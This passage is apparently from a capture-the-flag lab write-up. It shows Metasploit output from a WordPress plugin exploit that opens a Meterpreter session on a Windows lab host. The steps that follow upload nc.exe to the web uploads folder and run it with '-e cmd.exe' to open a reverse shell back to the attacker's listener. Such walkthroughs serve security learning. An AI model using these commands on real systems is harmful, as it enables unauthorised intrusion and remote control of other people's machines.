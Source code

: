 ~~~
[*] Executing the payload at /wordpress/wp-content/plugins/NvTkksXtvl/ujwUshaaSs.php...
[*] Sending stage (38288 bytes) to 10.10.10.29
[*] Meterpreter session 1 opened (10.10.14.195:4444 -> 10.10.10.29:49717) at 2020-06-13 11:20:52 +0200
[!] This exploit may require manual cleanup of 'ujwUshaaSs.php' on the target
[!] This exploit may require manual cleanup of 'NvTkksXtvl.php' on the target
[!] This exploit may require manual cleanup of '../NvTkksXtvl' on the target
[+] Deleted ujwUshaaSs.php
[+] Deleted NvTkksXtvl.php

meterpreter > 
~~~

A netcat binary is uploaded to the machine for a more stable shell.

## Netcat

On your machine, download `nc.exe`:

~~~
unknown@kali:~/Downloads$ cd ~/Downloads/
unknown@kali:~/Downloads$ wget https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip
unknown@kali:~/Downloads$ unzip netcat-win32-1.11.zip 
unknown@kali:~/Downloads$ cp netcat-1.11/nc.exe .
~~~

Now, back to the meterpreter, let's use the following commands:

~~~
meterpreter > lcd /home/unknown/Downloads
~~~

`lcd` stands for "Local Change Directory", which we use to navigate to the local folder where `nc.exe` is located.

~~~
meterpreter > cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
meterpreter > upload nc.exe
[*] uploading  : nc.exe -> nc.exe
[*] Uploaded -1.00 B of 35.67 KiB (-0.0%): nc.exe -> nc.exe
[*] uploaded   : nc.exe -> nc.exe
~~~

We then navigate to a writeable directory on the server (in our case `C:/inetpub/wwwroot/wordpress/wp-content/uploads`) and upload netcat. Let's start a netcat listener (on your machine):

~~~
unknown@kali:~/Downloads$ rlwrap nc -nlvp 1234
listening on [any] 1234 ...
~~~

Next, we can execute the following command in the meterpreter session to get a netcat shell:

~~~
meterpreter > execute -f nc.exe -a "-e cmd.exe 10.10.14.195 1234"
Process 3248 created.
~~~
